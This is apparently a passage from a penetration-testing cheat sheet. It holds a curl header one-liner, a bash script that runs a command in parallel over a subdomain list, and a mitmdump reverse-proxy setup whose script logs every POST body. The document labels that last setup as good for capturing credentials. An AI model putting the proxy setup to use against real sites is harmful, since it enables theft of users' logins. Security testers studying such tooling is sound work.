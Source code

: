 ## <a name="General-All"></a>General
<br># Print only response headers for any method with curl
<br>```curl -skSL -D - https://www.example.com -o /dev/null```

<br># Pure bash multhread script
```
#!/bin/bash

FILE="${1}"
THREADS="${2}"
TIMEOUT="${3}"
CMD="${4}"
NUM=$(wc -l ${FILE} | awk '{ print $1 }')
THREAD=0
NUMDOM=0
while read SUBDOMAIN; do
        PIDSTAT=0
        if [ $THREAD -lt $THREADS ]; then
                eval timeout ${TIMEOUT} ${CMD} 2>/dev/null &
                PIDS[$THREAD]="${!}"
                let THREAD++
                let NUMDOM++
                echo -ne "\r>Progress: ${NUMDOM} of ${NUM} ($(awk "BEGIN {printf \"%0.2f\",(${NUMDOM}*100)/${NUM}}")%)\r"
        else
                while [ ${PIDSTAT} -eq 0 ]; do
                        for j in "${!PIDS[@]}"; do
                                kill -0 "${PIDS[j]}" > /dev/null 2>&1
                                PIDSTAT="${?}"
                                if [ ${PIDSTAT} -ne 0 ]; then
                                        eval timeout ${TIMEOUT} ${CMD} 2>/dev/null &
                                        PIDS[j]="${!}"
                                        let NUMDOM++
                                        echo -ne "\r>Progress: ${NUMDOM} of ${NUM} ($(awk "BEGIN {printf \"%0.2f\",(${NUMDOM}*100)/${NUM}}")%)\r"
                                        break
                                fi
                        done
                done
        fi
done < ${FILE}
wait
```

<br># Reverse Proxy
<br>```mitmdump --certs ~/cert/cert.pem --listen-port 443 --scripts script.py --set block_global=false --mode reverse:https://example.com/``` # Good for capture credentials
```
$ cat script.py
import mitmproxy.http
from mitmproxy import ctx

def request(flow):
    if flow.request.method == "POST":
        ctx.log.info(flow.request.get_text())
```
